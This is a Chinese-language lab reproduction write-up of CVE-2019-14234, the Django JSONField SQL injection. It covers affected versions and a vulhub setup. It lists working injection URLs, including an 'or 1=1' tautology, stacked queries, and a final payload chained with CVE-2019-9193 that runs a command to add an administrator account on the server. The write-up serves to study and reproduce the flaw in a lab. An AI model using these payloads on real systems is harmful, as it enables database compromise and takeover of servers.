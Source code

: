 （CVE-2019-14234）Django JSONField sql注入漏洞
==============================================

一、漏洞简介
------------

该漏洞需要开发者使用了JSONField/HStoreField，且用户可控queryset查询时的键名，在键名的位置注入SQL语句。

Django通常搭配postgresql数据库，而JSONField是该数据库的一种数据类型。该漏洞的出现的原因在于Django中JSONField类的实现，Django的model最本质的作用是生成SQL语句，而在Django通过JSONField生成sql语句时，是通过简单的字符串拼接。

通过JSONField类获得KeyTransform类并生成sql语句的位置。

其中key\_name是可控的字符串，最终生成的语句是WHERE
(field-\>\'\[key\_name\]\') = \'value\'，因此可以进行SQL注入。

二、漏洞影响
------------

1.11.x before 1.11.23

2.1.x before 2.1.11

2.2.x before 2.2.4

三、复现过程
------------

### 环境搭建

    git clone https://github.com/vulhub/vulhub.git
    cd vulhub/django/CVE-2019-14234/
    docker-compose up -d

### 漏洞利用

#### 1、登录后台

http://ip:8000/admin/vuln/collection/

#### 2、构造URL进行查询

http://ip:8000/admin/vuln/collection/?detail\_\_a%27b=123

![](./resource/(CVE-2019-14234)DjangoJSONFieldsql注入漏洞/media/rId28.png)

可以看到已经注入成功，并且可以看到构造的SQL语句

为进一步验证注入语句，我们继续构造

    http://ip:8000/admin/vuln/collection/?detail__title')='1' or 1=1--

后台生成的sql语句的关键部分是

    WHERE ("vuln_collection"."detail" -> 'title')='1' or 1=1-- ') = %s

由于or 1=1永为真，因此应该返回所有结果，页面返回结果符合预期，如下图

image

下一步结合CVE-2019-9193我们尝试进行命令注入，构造url如下

    http://ip:8000/admin/vuln/collection/?detail__title')%3d'1' or 1%3d1 %3bcreate table cmd_exec(cmd_output text)--%20

页面结果虽然报错，但是报错原因是no results to
fetch，说明我们的语句已经执行

![](./resource/(CVE-2019-14234)DjangoJSONFieldsql注入漏洞/media/rId29.png)

最终payload

    http://ip:8000/admin/vuln/collection/?detail__title')%3d'1' or 1%3d1 %3bcopy cmd_exec FROM PROGRAM 'net user admin admin /add'--%20
